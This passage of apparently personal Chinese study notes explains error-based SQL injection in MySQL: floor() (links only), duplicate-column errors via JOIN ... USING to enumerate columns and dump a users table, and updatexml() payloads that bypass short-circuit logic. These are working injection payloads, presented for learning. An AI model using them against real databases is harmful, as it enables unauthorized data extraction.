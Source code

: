 
**（5）floor()**

https://blog.csdn.net/miraclehw/article/details/129250360

https://www.cnblogs.com/hsk832/p/14651018.html



**（6）列名重复报错**

+ 关键函数：`name_const()`

https://www.cnblogs.com/linuxsec/articles/11107102.html



+ JOIN

首先要知道表名，用join爆出第一列的列名。

```mysql
mysql> SELECT * FROM (SELECT * FROM users AS a JOIN users b)c
ERROR 1060 (42S21): Duplicate column name 'Id'
```

得到第一列的列名后，在语句的基础上添加`using(第一列名)`爆出第二列的列名。

```
mysql> SELECT * FROM (SELECT * FROM users AS a JOIN users b USING(id))c
ERROR 1060 (42S21): Duplicate column name 'username'
```

得到第一列、第二列的列名后，继续用`using(第一列，第二列)`爆出第三列的列名。

```mysql
mysql> SELECT * FROM (SELECT * FROM users AS a JOIN users b USING(id,username))c
ERROR 1060 (42S21): Duplicate column name 'password'
```

不断将所有得到的列名添加到using函数中，当所有的列都被添加后，数据库不再报错，得到的结果是该表中的全部数据。

```mysql
mysql> SELECT * FROM (SELECT * FROM users AS a JOIN users b USING(id,username,`password`))c
+----+----------+------------+
| id | username | `password`   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
|  2 | Angelina | I-kill-you |
+----+----------+------------+
```



**（7）短路原则与报错注入**

https://www.cnblogs.com/linuxsec/articles/11107102.html

SQL语句中语法存在错误时，短路原则并不会阻止报错。`and 1=1`和`and 1=0`

```mysql
select * from test where id='1' and 1=1 and updatexml(1,concat(0x7e,(select database()),0x7e),1)
```

```mysql
select * from test where id='1' and 1=0 and updatexml(1,concat(0x7e,(select database()),0x7e),1)
```
